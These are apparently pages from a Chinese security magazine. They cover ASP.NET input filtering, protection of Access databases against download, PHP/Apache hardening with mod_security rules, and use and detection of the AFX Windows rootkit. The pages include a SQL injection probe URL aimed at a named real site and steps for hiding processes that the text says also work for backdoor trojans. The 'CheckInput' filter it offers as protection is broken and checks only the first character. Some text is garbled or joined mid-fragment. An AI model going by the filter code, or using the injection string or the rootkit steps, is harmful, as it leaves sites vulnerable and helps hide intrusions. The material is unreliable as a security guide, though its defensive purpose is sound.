看来微软确实在 .NET 框架里做了不少工作，这种功能表面看起来还蛮不错的，但是 ASP.NET 默认的设置并非能检测到所有的危险代码，甚至对一些危害数据库的代码也视而不见。例如：向搜影提交如下的字符串：

> `http://www.25cn.net/Souying/Search.aspx?key=天龙八部'or 0<>(select count(*) from admin.c)` ...

得到的结果却是返回电影《天龙八部》的详细信息和播放连接，可见 `or` 后边部分的字符串也参与了数据库查询，程序作者只是实现了关键字的拆分，并没有对其进行过滤，因此可以实行大量的 SQL 攻击（具体方法相信大家都很熟悉了，这里就不多说，有心的朋友可以自己测试一下）。

对于这种情况，在 ASP 中常用的防范方法是：

编写一个过滤函数到独立的文件中，然后在每个需要过滤的页面用 `#include` 语句将该文件包含进来，进而使用过滤功能函数。

那么，在 ASP.NET 中如何编写过滤函数过滤掉这些危险的字符串呢？是不是也一样编写好文件然后 include？大可不必这么做，可以通过下面的方法来构造函数并使用它来过滤：

### 1．输入框内容的检测

运行 Visual Studio .NET，打开“解决方案资源管理器”，找到相应的 ASP.NET 项目（例如 25cn），在项目图标上点右键→添加→添加类，输入类名称 `25cn.vb`，单击“打开”按钮，即完成类文件的创建工作，下面在这个类的基础上创建输入过滤函数：

```vb
Public Class 25cn
    ...
    Public Function CheckInput(ByVal InputString As String) As Integer
        ' 检查字符串 InputString 中是否含有非法字符，如有，返回 0，没有则返回 1
        Dim i As Integer
        Dim us As String
        For i = 1 To Len("InputString")
            ' 获得字符串的长度，然后挨个字符判断
            us = Mid(InputString, i, 1)
            If us = "'" Or us = '"' Or us = ";" Or us = "%" Or us = "<" Or us = ">" Or us = "&" Then
                Return 0
            Else
                Return 1
            End If
        Next
    End Function
End Class
```

以上只是部分语句，读者有兴趣可以在 `For` 语句里加入其他字符的过滤，将其编成一个功能强大的过滤模块，应用于整个项目的任何页面。下面介绍一下如何使用这个函数：

假设页面 `login.aspx` 里有“用户名”和“密码”两个 TextBox 控件，现在要使用 `CheckInput` 函数过滤掉其中的危险字符，方法如下：

打开 `.aspx` 文件，然后双击“登录”按钮，即打开代码后置类文件，输入以下内容：

```vb
'定义并实例化一个类
Public 25cn As 25cn = New 25cn
If 25cn.CheckInput(yonghuming.Text) And _
   25cn.CheckInput(mima.Text) Then
   '如果输入合法，则与数据库中的数据比较……
Else
   '如果不合法，则给出错误信息
   ErrorMsg.Text = "输入了不合法的字符！"
End If
```

完成以上工作，按下 `Ctrl+F5` 编译运行，当用户点击“登录”按钮的时候，将会触发检查函数的执行，对用户名、密码两个数据框进行检查。

### 2．对 URL 里 int 类型参数值的检测

很多时候，在 URL 里传递的参数值中要求只能是整数 int，例如在搜影里查看某一部免费电影的时候，URL 是这样的：`http://www.25cn.net/Souying/index.aspx?ClassId=2`，`ClassId` 要求只能是整数参数。很多程序员不注意这个参数的过滤，直接将 `ClassId` 的值通过 SQL 语句在数据库中查询结果，这就给入侵者有了可乘之机，直接将 SQL 语句附加在后面就可以对数据库进行攻击，那么如何限制 `ClassId` 只能是 int 类型的数值呢？使用 `CInt()` 函数就能解决这个问题，如：在参数接收的页面 `Index.aspx` 里使用以下代码获得参数值：

```vb
ClassId = CInt(Request.Params("ClassId"))
```

这样 `ClassId` 接收到的是经过强制转化后的 int 数值，输入非 int 参数值会得到“输入字符串的格式不正确”的错误提示。

以上的函数功能还不是很强大，只能实现一般的非法字符过滤，读者可以根据实际编写完善，本文旨在抛砖引玉，提供一点建议和看法而已，欢迎大家一起讨论。

脚本小子：网站安全一直是让人头疼的问题，如果网站带有数据库的话，那么数据库被人下载将会让你辛苦经营的网站遭受灭顶之灾：轻则用户名密码尽显人前，重则服务器被入侵，网站受破坏！有没有好的办法防止处于网站核心的数据库被下载呢？方法当然是有的，而且前些天我就真遇到了一次：我网站的数据库地址被人挖出来（这个人名字也是以“脚本”开头的！呜呜，坏人啊！），可惜他告诉我说下载不了！哈哈，这就是我写这篇文章的初衷了。

**难度等级：** 中

**适合读者：** 网站管理员

# 防数据库下载终极技术

前些天，QQ 里的某仁兄去我的网站转了几圈，急传：“你的网站有漏洞！”我心想不就是 SQL 注入漏洞吗？因为我的电影程序是采用金梅 ASP 的源码，对这个我还算熟悉，已做好了安全措施，并将后台删除，不允许上传文件，就是黑我的站也只能拿一些用户名，也算是朋友的劳力所得，呵呵（有很多人因此加我说是我站电影会员要求技术支持，真逗！），后来证实了我想法的不足，原来是……

基于雨点下载 v2.0+sp1 的下载站数据库被猜出来，值得安慰的是对方并未能下载到数据库并及时通知了我，后来我在某黑客站里一篇文章里看到这样的一段话：“因危害过大，现考虑是否将暴露数据库的方法公开……”看来相关方面的入侵技术资料已经有了，有必要提醒一下大家要注意安全。

下面针对现在最广泛的网络情况，对网络上常见的数据库防下载的方法简单说点个人看法，并加上一些自己实际的管理经验，希望能给大家带来帮助，如有不足之处请指正：

# 购买空间，没有主机 IIS 控制权限

- 1．更改数据库名或属性（文件后缀）

这个较为简单，懂点儿 HTML 的朋友都可以做到的（HTML 是虾米？倒，朋友你还是 PASS 吧……）。

（1）将数据库名改为尽可能复杂，比如 `#@!qweadga456`，这样保证了想当然的黑客朋友不猜测到数据库名。

（2）修改后缀为 `asa` 或 `asp`，在一定程度上可以防止被下载，不过也早成昔日黄花了，此方法的破解早塞满了各大中小黑客类网站了。

（3）在数据库名前加“#”号，以防止被下载。原理是下载的时候只只能识别 `#` 号前名的部分，对于后面的自动去掉。事实证明数据库还是可以被下载的（黑防原来“臭要饭的！”写的文章已经讲得很清楚了，大家可以翻看）。

- 2．修改数据库连接文件与数据库地址

一个数据库能被调用，需要其他文件调用，这好比一样物品的存在与被使用的过程需要我们的某些行为贯穿其中一样。来看具体方法：

（1）更改连接数据库的 `conn.asp`、`const.asp` 等文件名。在实际网站管理中发现默认的文件名被猜解出来的几率极大，有些不以为然的朋友或许会认为这并没有多大的意思，其实这只是一厢情愿：如果充当桥梁的调用文件被猜出的话，利用 IE 浏览器返回错误信息的特性，入侵者将很轻易地得到你数据库的下载地址。至于具体方法就点到为止吧，这儿主要针对数据库的防范下载问题，不主张攻击行为哟。

（2）修改数据库默认路径，以达到短期内不被猜解到数据库实际地址。这也只能够算是一种消极的做法，如果对方猜测不到你的数据库地址，就不要想下载了：你可以要求空间商为你开辟出一个 Web 无法直接访问到的空间（目录），将数据库放在里面。

（比如虎翼网 `www.51.net` 以前好像就有 `cgi-bin` 目录），修改数据库链接文件可以实现数据库不被下载，可惜现在已不多见了，所以说不是很适合购买空间的朋友。不过提醒一下：一些空间商仍保持着这种风格呢（慢慢找吧，呵呵），没有的话你以安全为由也可以提出这个合理要求的。

举例：你的 Web 目录是 `D:\web\web001`，可以把数据库放到 `D:\web\database` 这个文件夹里。在 `D:\web\web001` 里的数据库连接页中修改数据库连接地址为：`../database/数据库名.后缀` 格式，这样能合理调用但无法下载，因为它不在 Web001 目录，而 Web 目录与 DataBase 是不能以直接访问的！

- 3．加密数据库及相关文件

将数据库（主要是 MDB）加上密码，并修改调用数据库连接文件以达到防止数据库下载的目的。首先安装 MS-Access，将数据库下载后备份，用 Access 打开，选择：工具 -> 安全 -> 设置数据库密码，再将调用数据库的连接文件加上密码，比如：

```text
conn.open "driver={microsoft access driver (*.mdb)};uid=xiaobai?;pwd=数据库密码;dbq=数据库路径"
```

当别人下载后，无法直接打开（需要密码）。不过我们知道不管是 WORD 或是 Access，它们的加密机制存在着极大的不足，密码很容易被爆破。网上已有多款爆破数据库的小程序。只要你上 Google 搜索：Access 密码破解软件，相信琳琅满目的返回页面一定可以让你找到一个满意的答案，所以此种做法也只能够算是较消极的方法。

- 4．删除后台登录窗口与后台管理文件

这是极度消极却不失有效的方法。某些较机灵的站点管理员便应用这种治标不治本的方法（最常见的就是电影网站的管理员了，哈哈）。为了防止网站漏洞产生后不能及时维护或打上补丁，部分人将后台文件删除以保暂时性的平安，比如以我们最常用的论坛 DVBBS，从 DV5 到现在的 DV7，可谓是满目疮痍，走过一年的路程，打上的补丁不下 10 个。我发现 DV 相关的后台管理删除的话，可以有效地防止数据库下载呢：不允许后台操作；不允许备份数据库；不允许更改较关键论坛设置；不允许被更改上传文件类型（要不然上传木马的话，还不如给人家数据库呢）。

DV 论坛只需要保留 `admin_postings.asp`、`admin_lockuser.asp`、`admin_lockip.asp` 3 个文件给版主级别以上用户使用就可以了，其他文件一律移到不可以下载目录下（呵呵，除非服务器被 K 掉，要不就安全些了），当然数据库本地备份也是必要的哟，这可是基本的维护行为。

当管理员要设置时，再把文件上传或移动到原来目录吧。这样可以大大减少你的数据库被下载（不过要是你的站点存在类似 SQL 注入漏洞，那么对方直接读取你数据库的用户名，你藏不藏数据库都没什么意义了）。

# 具有主机 IIS 控制或设置权限

硬件价位年年在变，主机托管、虚拟机买卖已比以前便宜了很多，当然各地的托管价位又有一定的价差，各代理价位与非代理价位也存在极大的价差。但不管怎么说，购买几百 MB 空间、几 G 空间已不满足需要时候，我们就只能投资更多了，于是个人／团体等具有 IIS 管理控制权的主机越来越多。在这样的情况下，数据库被下载的话，可能造成比上面更严重的后果：客户资料泄密、主机控制权被篡夺、主机软硬件被破坏……更不应小瞧数据库的安全性了。

- 1．做好主机安全工作以防止被入侵。部分网站全站数据被下载最初是因为存在某种漏洞，被入侵后全站被下载，更不要说数据库，对于这一点就只能找强硬的安全维护人员或团队帮忙了。假若不加以重视，某天自己辛苦经营的主机就握在别人的手中了……又一个肉鸡产生了。至于如何维护主机安全已超出本文范围，不再详述。请参阅《黑客防线》以前相关文字。

- 2．合理使用 ODBC 数据源。这种方法近期被很多人推荐，不失为一个好办法，不过对于已投入使用或是较老的 ASP 或其他程序而言就显得不太适合了；在设计 ASP 程序时，考虑 ODBC 数据源（不熟悉的朋友请参阅相关书籍），我们可以设置：

```text
conn.open "ODBC--DSN 名"
```

而如果将数据库名写入 ASP 文件中（一般为 `conn.asp`、`const.asp` 等文件），可能是这样：

```text
DBPath = Server.MapPath("../adminok/safefolder/xsfs@#ss123.mdb")
conn.open "driver={Microsoft Access Driver (*.mdb)};dbq=" & DBPath
```

正如我们在上面分析中提到的，数据库地址可能被暴露，因而极可能被下载，安全系数便变成了未知。不过这样也有不足，每当你换数据库目录时，ODBC 源也要随着改变设置。

- 3．数据库放在 Web 可访问目录外。与购买虚拟空间一样，将数据库置于一个独立不可以 Web 直接访问目录，并进行调用就可以了。这不失为一个最简单但有效的方法（除非你的主机给人侵了，那另当别论），这样也能积极地防范数据库被下载。

- 4．添加适当的扩展映射。这个方法是在 IIS 里设置完成的，你只要加上相关的应用解析，就可以防止特定类型文件被下载，这样即使数据库地址被猜出，对方也因无法下载数据库而另辟途径攻伐，从而达到我们的保护目的。我们可以这样设置：打开控制面板 -> IIS 属性 -> 指定的 Web 网站 -> 主目录 -> 配置 -> 映射 -> 添加 `.mdb` 应用解析：`c:\winnt\system32\inetsrv\ssinc.dll`（图1）或是其他的 DLL 文件；请在修改后自行测试。比如：把一个 MDB 放在 Web 目录下，再在 IE 里打开下载地址，看是否能被下载到。要是出现 `404 NOT FOUND`（找不到文件）或是 `500` 内部错误的话即表示成功。

- 5．错误解析法。首先在 MDB 文件中建一个表，假设表中一字段名为 NotDownLoad，在表中建一个字段，字段中填入：`<%= "a" -1%>`，再把数据库改名为 `.asp`，这样就算别人猜到了路径也下载不了了，因为把扩展名改成 `.ASP` 后在 IE 中输入时，遇到了 `<%%>` 它就会去解释之间的代码。呵呵，结果会提示出错，所以数据库绝对不会被正确地下载！

说了这么多，上面的方法如果能合理综合利用起来的话，不知对大家有没有帮助呢？我想答案是肯定的。但是正如我提及的：假如主机不安全的话，那数据库的安全设置就显得多余了。如果你对自己使用的空间商没信心，或是只为便宜而选择上它，那么，安全方面你做好了吗？另外，网站程序的安全也日益重要，脚本攻击成为一个热点，在各黑客站火爆异常，我们的心中时不时会不自觉地去检验某些感兴趣的站点或服务器是否安全、是否能被我们更加合理地利用，或是最终扔下不是很好听的一句话：“这个管理员真的太不小心了！”而当某天某小黑客对你说：“你的站安全不错，至少我下不了数据库……”的时候，那种满足是否会溢于言表呢？

脚本小子：继网络上 ASP 注入攻击技术火爆以来，PHP 脚本的攻击技术也开始有爆发的态势，很多朋友在从 ASP 入侵向 PHP 入侵慢慢地转变，很多 PHP 脚本攻击的方法被研究出来并公布，PHP 系统的安全性也变得越发可及。在这样的情况下，如何将 PHP 系统做得更完善、安全性做到更好就成了当下讨论的热点，《黑客防线》最近几期将抓住这个热点，给大家介绍更多、更实用的 PHP 攻击、防护技术，让大家在 PHP 的天空下攻防自如！

难度等级：中

适合读者：服务器管理员

## 细叱咁造安全的 PHP 系统

文／单长虹

PHP 是用于创建动态网页的最流行的脚本语言之一。这篇文章给出了加强 PHP 安全性的基本步骤，在网络安全深入人心的今天，希望你也能打造安全的 PHP 程序！

## 操作系统

本文的例子在 FreeBSD 4.7 上实现，但方法同样适用于 UNIX 和类 UNIX 系统。本文假设 MySQL 数据库已经安装在了主机上，其安装目录为“/usr/local/mysql”。

## 安全假设

- PHP 的配置应该充分利用内建的安全机制。
- PHP 脚本必须在一个 Chrooted 环境中执行。
- Apache 服务器必须抛弃所有包含 HTML 标记的 Requests（GET 和 POST），这有利于防止跨站脚本和 SQL 注入攻击。
- 不要给 Web 应用的正常用户发出任何的警告或者错误消息。
- 应该将进来的 GET 和 POST 请求写入文本文件中，这将有助于我们使用基于主机的入侵监测系统 HIDS。

## 准备安装使用的软件

首先，我们必须下载最新版本的 Apache、PHP 和 Mod_security 模块的源代码。Mod_security 模块用来防御跨站脚本攻击和 SQL 注入。接下来，将我们下载的软件解压之后放在主目录，Mod_security 模块的源代码放在 Apache 的“src/modules/extra”目录下：

```text
gzip -dc apache_1.3.27.tar.gz | tar xvf -
gzip -dc php-4.3.2.tar.gz | tar xvf -
gzip -dc mod_security_1.5.tar.gz | tar xvf -
cp mod_security-1.5/apache1/mod_security.c apache_1.3.27/src/modules/extra/
```

同样的，如果有一些新的补丁出现，我们还应该将它们及时补充进来。在开始编译 PHP 之前，还必须决定到底采用 PHP 安装的 3 种方法中的哪一种：

- 作为 Web 服务器的静态模块。
- 作为 Web 服务器的动态模块。
- 作为 CGI 解释器。

上面 3 种方法每一种都有自己的优缺点；当我们选择作为静态模块加载之后，网站的性能会有所提高，但是当我们再次将 PHP 升级到一个新的版本的时候，就要求我们重新对 Web 服务器进行编译，这也是很麻烦的；当我们选择作为动态模块的时候，免却了升级时的麻烦，但是却会让 Web 服务器的性能降低 5% 左右。此外，我们还要一个模块 mod_so。第三种方法是作为一个 CGI 解释器，它可以与 Apache 的 suEXEC 机制结合，这是一个非常有趣的方法——不幸的是，如果不能正确地安装，就会构成严重的威胁。

从安全和效率的角度看，似乎最好的选择就是作为一个静态模块，所以，接下来的内容我们就是讲解基于静态模块的安装。

## 安装 PHP

总的来说，安装带有 PHP 的 Apache 与不带 PHP 的过程很相似，唯一的不同点在于要使用两个附加模块：mod_php 和 mod_security。

创建一个叫做“Apache”的用户账号和组：

```text
pw groupadd apache
pw useradd apache -c "Apache Server" -d /dev/null -g apache -s /sbin/nologin
```

然后，我们必须如下准备 Apache Web Server：

```bash
cd apache_1.3.27
./configure
```

接下来编译 PHP 模块：

```bash
cd ../php-4.3.2
./configure --with-mysql=/usr/local/mysql --with-apache=../apache_1.3.27 --enable-safe-mode
make
su
make install
```

转移到 Apache 的源码目录，继续进行安装：

```bash
cd ../apache_1.3.27
./configure --prefix=/usr/local/apache --disable-module=all --server-uid=apache --server-gid=apache --enable-module=access --enable-module=log_config --enable-module=dir --enable-module=mime --enable-module=auth --activate-module=src/modules/extra/mod_security.c --enable-module=security --activate-module=src/modules/php4/libphp4.a
make
su
make install
chown -R root:sys /usr/local/apache
```

在上面的“./configure”命令中，我们只是启用了对于执行功能和安全需要所必须的模块。关于模块的选择，可以参考有关 Apache 的资料。接下来返回到 PHP 的目录，拷贝默认的 PHP 配置文件：

```bash
cd ../php-4.3.2
mkdir /usr/local/lib
chmod 755 /usr/local/lib
cp php.ini-recommended /usr/local/lib/php.ini
chown root:sys /usr/local/lib/php.ini
chmod 644 /usr/local/lib/php.ini
```

为了使 PHP 脚本能够被 Apache Web Server 正确处理，下面这一行应该添加到 `/usr/local/apache/conf/httpd.conf`：

```apache
AddType application/x-httpd-php .php
```

写到这里，我们就可以检查一下看 PHP 与 Apache 是否能够恰当地与 MySQL 交互数据了。我们写了一个例子脚本“test.php”，内容如下（其中，“user_name”和“password”的值应该与数据库中可用的用户登录信息一致）：

```php
<html><body>
<?php
$link = mysql_connect("localhost", "user_name", "password")
    or die;
print "Everything works OK!";
mysql_close($link);
?>
</body></html>
```

上面的脚本文件可以通过任何的 Internet 浏览器浏览。如果 PHP 命令能够被正确地解释并且跟 MySQL 的连接也能够建立，我们就可以着手加强软件的安全性了。否则，还需要分析 Apache 和 MySQL 的日志文件来消除引起问题的原因。

## 改变服务器的根目录

第一步就是为带有 PHP 模块的 Apache 服务器准备一个 chrooted 环境。在第一次在 chrooted 环境下运行 Apache 之前，我们还应该拷贝如下的库文件（它们是 PHP 正确运行所必须的）：

```bash
cp /usr/local/mysql/lib/mysql/libmysqlclient.so.12 /chroot/httpd/usr/lib/
cp /usr/lib/libm.so.2 /chroot/httpd/usr/lib/
cp /usr/lib/libz.so.2 /chroot/httpd/usr/lib/
```

另外，我们必须拷贝 PHP 的默认配置文件：

```bash
umask 022
mkdir -p /chroot/httpd/usr/local/lib
cp /usr/local/lib/php.ini /chroot/httpd/usr/local/lib/
```

还要创建一个 `/chroot/httpd/tmp`` 目录。这个目录的所有者必须是 root，并且其访问权限要设为 1777。创建完这样的新环境后，测试一下看 Apache 是否能够正确运行：

```bash
chroot /chroot/httpd /usr/local/apache/bin/httpd
```

> 脚本小子：在我们配置 PHP 之前，我们必须注意一个非常重要的细节——PHP 和 MySQL 的交互。因为 PHP 通过 `/tmp/mysql.sock` 套接字在本地与 MySQL 交互，那么将 PHP 放入一个 chrooted 环境中，意味着它们之间不能正常地交互了。为了解决这个问题，每次我们运行 MySQL 时，我们必须创建一个到 Apache chrooted 环境的硬连接：`ln /tmp/mysql.sock /chroot/httpd/tmp/`。

注意：为了使 PHP 和 MySQL 之间能正常地连接，`/tmp/mysql.sock` 和 `/chroot/httpd/tmp` 目录必须在物理上处在同一个文件系统下（文件系统之间的硬连接不起作用）。

```apache
AddType application/x-httpd-php .inc
AddType application/x-httpd-php .class
```

## 配置 PHP

在以前《黑防》的文章中，曾经讲过加强 Apache 安全性的过程。这里，我们还要使用 Apache 的配置文件来处理 PHP 脚本，必须向 `httpd.conf` 文件中添加如下内容：

```apache
AddModule mod_php4.c
AddType application/x-httpd-php .php
```

值得注意的是，除了 `*.php`，两种扩展后缀如 `*.inc` 和 `*.class` 也被添加了进来，程序员可以用它们包含额外的文件，使用扩展名 `*.inc` 和 `*.class` 或者类似一些文件。因为默认情况下，这些扩展名会被作为普通文件，当用户发送 requests 要求下载它们时，包含在其中的源代码将被泄漏，这可能导致泄漏密码和敏感信息。

下一步必须修改一下 PHP 的配置文件 `/chroot/httpd/usr/local/lib/php.ini`。为了提高 PHP 的安全性，一些比较重要的改变如下：

| 配置 | 描述 |
|---|---|
| `safe_mode = On` | 通过使能 `safe_mode` 参数，PHP 脚本只能访问同一个所有者的文件。这是嵌入到 PHP 中的最重要的安全机制。这能够非常有效地阻止对系统文件的未经授权的访问（如 `/etc/passwd`），并且增加了许多限制，使得未经授权的访问变得更难。 |
| `safe_mode_gid = Off` | 当 `safe_mode` 被打开，并且 `safe_mode_gid` 被关闭时，PHP 脚本只有在文件所有者相同的时候才能够对文件进行访问。 |
| `open_basedir = directory[...]` | 当 `open_basedir` 参数被使能，PHP 只能访问那些放在指定目录下的文件和子目录。 |
| `safe_mode_exec_dir = directory[...]` | 当 `safe_mode` 被打开，如果 `system()`、`exec()` 和其他执行系统程序的函数没有放在指定的目录时，它们将拒绝开启程序。 |
| `expose_php = Off` | 关闭 `expose_php`，可以使得 PHP 不会在 HTTP 头中泄漏自己的信息。 |
| `register_globals = Off` | 当参数 `register_globals` 被打开的时候，所有的 EGPCS（Environment、GET、POST、Cookie and Server）变量会被自动作为全局变量注册。因为它暴露出了一个严重的威胁；我们强烈建议关闭掉这个参数（自从 4.2.0 开始，这个参数已经被默认关闭了）。 |
| `display_errors = Off` | 如果参数 `display_errors` 被关闭了，所有的 PHP 错误和警告将不能被显示。因为这样的警告经常会暴露有用的信息，如路径名称、SQL 查询等，所以，我们强烈建议在产品服务器上将这个参数关闭掉。 |
| `log_errors = On` | 当 `log_errors` 打开时，所有的警告和错误都会被记录到日志文件里面。如果这个文件不可访问，那么 Apache 服务器将记录这样一些警告和错误。 |
| `error_log = filename` | 这个参数指定了日志文件的全路径名（注意：这个文件必须允许 apache 用户和组具有写权限）。 |

另外，需要注意改变文件的扩展名。将 `*.php` 改为 `*.asp`、`*.dhtml` 或者 `*.html`。作了这样的任何改变之后，会使潜在的入侵者感到困难，他们会意识到在服务器一端采用了安全技术，从而迷惑入侵者。为了改变扩展名，所有的 `*.php` 文件应该重命名为 `*.dhtml`，可以在 `/chroot/httpd/usr/local/apache/conf/httpd.conf` 文件中作改变，将

`AddType application/x-httpd-php .php`

改为：

`AddType application/x-httpd-php .dhtml`。

这样做之后，Web 用户在 URL 地址栏中将不会看到 `*.php` 的后缀，这样就不会暴露服务器端使用的脚本技术了。

## 防御 XSS 和 SQL Injection 攻击

最后一步强化服务器的措施就是对 GET 和 POST 请求做日志记录，并且防御跨站脚本和 SQL 注入攻击。为了达到这个目的，必须使用 Mod_security 模块，这可以通过在 `httpd.conf` 中加入如下的行来实现：

```apache
AddModule mod_security.c
```

为了能够对 GET 和 POST 请求记录日志，还必须在 `httpd.conf` 中加入如下的部分：

```apache
<IfModule mod_security.c>
    AddHandler application/x-httpd-php .php
    SecAuditEngine On
    SecAuditLog logs/audit_log
    SecFilterScanPOST On
    SecFilterEngine On
</IfModule>
```

上面的命令能使用 Audit Engine，它可以负责将请求记录进日志，并且 Filtering POST Engine 将能够记录 POST 请求。

为了能够保护 Web 免受跨站脚本攻击，我们还必须在 `</IfModule>` 前面加上如下行：

```apache
SecFilterDefaultAction "deny,log,status:500"
SecFilter "<(.|\n)+>"
```

第一行的作用是当接收到的请求匹配 `SecFilter` 变量所设定的值时，服务器返回客户端的“Internal Server Error”消息内容。显然，第二行的作用就是为 GET 或者 POST 请求设置过滤条件。

一个典型的 SQL 注入的特征就是在 GET 或者 POST 请求中单引号（`'`）和双引号（`"`）的使用，通过忽略这种字符，我们可以让 SQL 注入变得非常困难：

```apache
SecFilter "'"
SecFilter "\""
```

需要注意的是，虽然对这些字符 `<`、`>`、`'` 的过滤，使得跨站脚本和 SQL 注入攻击变得非常困难，但是这对那些需要正常使用这些字符的用户确实是一个挑战。为了解决这个问题，我们可以在客户端使用 JavaScript 语言来开发，因为它里面使用了特殊的标记来替换这些特殊字符，如：`&lt;`、`&gt;`、`&quot;` 等。

## PHP 的简要历史

1994 年秋季，Rasmus Lerdorf 开始构思 PHP。早期的非发行版本被用于在他的主页上，以追踪谁在看他的在线简历。1995 年年初第一版本出台，当时 PHP 只被认为是个人主页开发工具。它由一个非常单纯的、只能理解很少数特殊宏的分析引擎和一些用在主页后端通用的工具组成，如留言簿、计数器和其他一些东西。这个分析器在 1995 年年中被重写并被命名为 PHP/FI 第二版。FI 来自 Rasmus 写的另外一个包，用于解释 HTML 表单的数据。它结合了个人主页工具脚本和表单解析器，并加上 mSQL 支持，这样就产生了 PHP/FI。PHP/FI 以令人惊奇的步调成长，人们开始把自己的代码贡献给它。

后来，PHP 的发展也发生了变化，由 Rasmus 自己偏爱的和几个人开发的项目，变成一个更有组织的团体成就。Zeev Suraski 和 Andi Gutmans 重写了解析器，整个新的解析器成为 PHP 版本 3 的基础，许多有用的代码从 PHP/FI 继承到 PHP3，并且很多是完全重写的。

## PHP 是什么？

PHP 的全名蛮有趣的。它是一个嵌套的缩写名称，“PHP: Hypertext Preprocessor”，打开缩写还是缩写。PHP 是一种 HTML 内嵌式的语言（类似 IIS 上的 ASP），而 PHP 独特的语法混合了 C、Java、Perl 以及 PHP 式的新语法。它可以比 CGI 或者 Perl 更快速地执行动态网页。

## PHP 能做什么？

PHP 可以做任何其他 CGI 程序所能做的事，例如收集表格数据、生成动态页面内容，或者收发 cookies。可能最强大、最有意义的特性是 PHP 支持大范围的数据库。书写一个支持数据库的 Web 页面是难以置信地简单。

PHP 在资料库方面的丰富支援，也是它迅速窜红的原因之一。它支援下列的资料库或是资料表：

- Adabas D
- DBA
- dBase
- dbm
- filePro
- Informix
- InterBase
- mSQL
- Microsoft SQL Server
- MySQL
- Solid
- Sybase
- ODBC
- Oracle 8
- Oracle
- PostgreSQL

而在 Internet 上它也支援了相当多的通讯协定（protocol），包括了与电子邮件相关的 IMAP、POP3；网管系统 SNMP；网路新闻 NNTP；账号共用 NIS；全球资讯网 HTTP 及 Apache 伺服器；目录协定 LDAP；以及其他网路的相关函式。

除此之外，用 PHP 写出来的 Web 后端 CGI 程式，可以很轻易地移植到不同的作业平台上。例如，先以 Linux 架的网站，在系统负荷过高时，可以快速地将整个系统移到 SUN 工作站上，不用重新编译 CGI 程式。面对快速发展的 Internet，这是长期规划的最好选择。

## 总结

在实践当中，为了得到更高的 Web 服务器的安全性，服务器端的编码技术变得非常困难。那些明显需要与服务器进行数据交互的需求降低了服务器端的安全性，这就是为什么非万不得已，不要在服务器端使用脚本的原因。

使用本文中描述的方法，当 Apache、PHP 或者网站应用本身出现漏洞时，可以降低被突破的危险。当然，本文中并没有将所有的安全化 PHP 技术罗列出来，而仅仅是介绍了一些最基本的技术。虽然采用这些技术可以大大提高它们的安全性，但是我们不能忘记，整体的安全性不是由 Apache 或者 PHP 的配置决定的，而是更大程度上决定于网站应用本身。


# ROOTKIT 安装

## 隐藏与侦查

文／图 罗罗

Rootkit 出现于二十世纪 90 年代初，从出现至今，Rootkit 的技术发展非常迅速，应用越来越广泛，检测难度也越来越大。其中针对 SunOS 和 Linux 两种操作系统的 Rootkit 最多【树大招风：P】。所有的 Rootkit 基本上都是由几个独立的程序组成的：

- 以太网嗅探器程序，用于获得网络上传输的用户名和密码等信息。
- 特洛伊木马程序，例如：inetd 或者 login，为攻击者提供后门。
- 隐藏攻击者的目录和进程的程序，例如：ps、netstat、rshd 和 ls 等。

可能还包括一些日志清理工具，例如：zap、zap2 或者 z2。攻击者使用这些清理工具删除 wtmp、utmp 和 lastlog 等日志文件中有关自己行踪的条目，一些复杂的 Rootkit 还可以向攻击者提供 telnet、shell 和 finger 等服务。

AFX 可以隐藏 Processes（进程）、Files（文件）、Registry（注册表项），还有 Connections（网络连接），生成的文件 186KB，没有加壳。大家若是喜欢的话可以自己加壳，难得可贵的是它支持 Windows 95／98／ME／NT／2k／XP／2003 等系统。

## 【必要性】

只有使你的网络非常安全，让攻击者无隙可乘，才能使自己免受 Rootkit 的影响。你能保证自己的系统永远安全吗？不可能，所以学会检测就成为必要了，下面将演示 ROOTKIT 的生成，并将其检测出来。

## 【AFX 简介】

针对中国广大的 Windows 用户，下面我们以 AFX Windows Rootkit 2003（下面简称为 AFX）软件为例。AFX 是一个非服务级的 ROOTKIT，在登录之前没有 Hook 掉，因而也不算是好后门吧，没有什么功能，但是我们知道入侵者留下后门后进行隐藏显得极重要，这个 Rootkit 就有这样的功能。如图 1 所示。


## 【使用方法】

在 AFX 的界面中间的空白地方点击 HELP，可以得到英文的提示信息，大致翻译如图 2 所示：


具体翻译如下：

- 进程类型（Process Format）：`<文件名>.<属性>`（`<name>.<type>`），例子：`~~*`（隐藏所有以 `~~` 开头的进程）；`*.exe` 隐藏所有 exe 进程。
- 文件类型（File Format）：`<文件名>.<属性>`（`<name>.<type>`），例子：`~~*`（隐藏所有以 `~~` 开头的文件）；`*.exe` 隐藏所有 exe 文件。
- 注册类型：文件名，例子：`~~*`（隐藏所有以 `~~` 开头的键值）；`*file*` 隐藏所有包括字符串 file 的键值。
- 连接类型：`*协议* 本地地址:端口 * 远程地址:端口 *`，例子：`*TCP*`（隐藏所有 TCP 连接通信）；`*24.44.105.33*`（隐藏所有来自 24.44.105.33 的连接）。

# Rootkit 的检测与查杀

`44.105.33` 的通信），`*TCP*:*80*.*`（隐藏所有 80 端口的通信）。

比如我们要隐藏 QQ 这个程序，我们只需要在 PROCESS 的空白栏中间点右键，输入 `QQ.exe`，接着点 Generate 生成文件，保存为 `QQ2.exe`。当我们运行 `QQ2.exe` 后，再打开 `QQ.exe`，我们发现 QQ 在进程里不会出现了！同样的，后门木马也可以用同样的办法隐藏！如图 3 所示。


## Rootkit 的检测

这儿需要一个可供我们检测 Rootkit 的软件，我们可以选择 Kernel PS v0.4（我们可以从 http://www.xfocus.net/tools 下载到），这是一个可以查杀 hxdef084 隐藏进程及其他 Rootkit 的程序。程序包括 `knlps.exe`（程序界面执行文件）和 `knlps.sys`（系统界面文件）两部分。

解压 `knlps_v0.4.zip` 到 `C:\drootkit` 目录，点击开始——运行——转到 `C:\drootkit` 目录下，接着运行 `knlps`，可以看到 `QQ.exe` 原形毕露了吧，哈哈，如图 4 所示。


## 查杀方法

运行 `knlps -k PID` 对你想杀掉的程序进行强制杀除！不过以后你的 `QQ.exe` 程序将会永远隐藏下去，除非你删掉或不用 QQ 程序，也就是说清除了 Rootkit。笔者在测试时发现，Rootkit 还具有破坏程序的可能，我的 FIREWORK 就这样运行不了，如图 6 所示。要是有一天你也一样发现程序莫名出错了，或许 Rootkit 已敲响你家的大门了。


